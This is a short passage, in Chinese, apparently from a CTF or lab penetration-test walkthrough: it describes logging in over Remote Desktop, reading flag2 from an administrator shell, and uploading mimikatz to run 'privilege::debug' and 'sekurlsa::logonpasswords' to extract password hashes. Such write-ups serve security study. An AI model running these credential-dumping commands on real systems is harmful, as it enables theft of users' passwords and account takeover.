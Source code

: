 windows 设定规则 `mstsc`单个

[![](assets/1709193375-d8b80472a2c5e6f5af14d82881398040.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205054-d7f8394e-d56e-1.png)

链接，在管理员命令行获取 flag2

[![](assets/1709193375-391c122e1c74d583bce49a567bcd32b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205057-da41dbc4-d56e-1.png)

下面，我们进一步去提取密码信息

### mimikatz 提取密码

上传一个`mimikatz`获取密码 hash  
命令，注意这里要用管理员运行

```plain
privilege::debug
sekurlsa::logonpasswords
```
